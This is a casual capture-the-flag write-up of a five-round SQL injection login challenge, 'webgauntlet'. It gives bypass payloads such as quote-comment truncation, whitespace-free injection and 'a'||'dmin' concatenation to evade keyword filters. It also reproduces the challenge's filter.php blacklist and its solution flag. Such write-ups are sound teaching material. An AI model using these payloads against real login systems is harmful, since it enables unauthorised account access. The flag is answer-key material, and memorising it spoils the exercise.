





# webgauntlet




simple login page, my default instinct went "well there's no loopholes here, jwt requires a test cred, php session id looks non-fakeable"

so the best possible thing here is sqli

theres a bunch of cool sqli you can try to manipulate the query

my default goto when designing sqli is always

```
' or 1==1;
```

it's deceptively genius, its easy to remember, and it immediately clears out shitty sanitization there might have been



not even a single attempt in and i see the error with the FULL QUERY give itself to me

now i see what's happening

password='< password >'

that's where my payload needs to land right now

```
SELECT * FROM users WHERE username='admin' AND password='password'
```
if you think hard enough a good sql query to bypass it is


```
SELECT * FROM users WHERE username='admin' AND password='' OR 1==1--'
```

i dont know why thats not working hmmmmm, i double checked my exploit

alright lets invent a new payload on the spot! if you're aware of the UNION command you can do this easily

```
SELECT * FROM users WHERE username='admin' AND password='' UNION SELECT * FROM users WHERE username='admin';--'
```

seems like union isnt doing it either, instead it keeps loading on forever, so i assume thats not the answer.

see the problem is with a query like that being used in the application they probably only expect a single record to appear in whatever they want to measure.

so nothing with OR or UNION i guess

oh wait i just saw the filter.php - shit it says no OR

wait we have 2 fields to work with im so dumb lmao

if you fill the username field with admin';--
```
SELECT * FROM users WHERE username='admin';-- AND blah blah blah its all commented out now
```

this cuts off so basically we get all the users with name "admin", pretty sweet right?




alright round 2 
whats it this time




or and like = --


so it filters all these, which leaves me no option.

but this time we cannot comment anything out, we cannot even do queries with = so

you just put username as admin'; ' so that the next expression evaluates to a boolean maybe? im not really sure but it worked first try though

```
SELECT * FROM users WHERE username='admin'; '' AND password=''
```

our next challenge

Round3: or and = like > < --

wait what??

why can't i just use the previous one here


i set username to admin';'

i removed the whitespace it worked what the fuck???

so what im guessing is the challenge setters didnt expect this whatsoever LMAO


oh this time we can't write admin... thats deep

if you can't specify anywhere in the payload that there's admin to be found you have one of 2 options

- use something like a reverse or a string operation to disguise 'admin'
- or we could just fetch all the users from the database, assuming there's ONLY one user that the challenge setters have to trick us


```
SELECT * FROM users WHERE username='a'||'dmin';' AND password=''
```

now we on round 5


i cannot stress this enough - we have NOT FOUND A SINGLE REASON TO USE UNION?????



```php

<?php
session_start();

if (!isset($_SESSION["round"])) {
    $_SESSION["round"] = 1;
}
$round = $_SESSION["round"];
$filter = array("");
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($round === 1) {
    $filter = array("or");
    if ($view) {
        echo "Round1: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 2) {
    $filter = array("or", "and", "like", "=", "--");
    if ($view) {
        echo "Round2: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 3) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--");
    // $filter = array("or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round3: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 4) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--", "admin");
    // $filter = array(" ", "/**/", "--", "or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round4: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 5) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--", "union", "admin");
    // $filter = array("0", "unhex", "char", "/*", "*/", "--", "or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round5: ".implode(" ", $filter)."<br/>";
    }
} else if ($round >= 6) {
    if ($view) {
        highlight_file("filter.php");
    }
} else {
    $_SESSION["round"] = 1;
}

// academy{y0u_m4d3_1t_66b742d8}
?>

```

what an insane battle

i may have found a different path from what the challenge setters assumed would be helpful anyways.

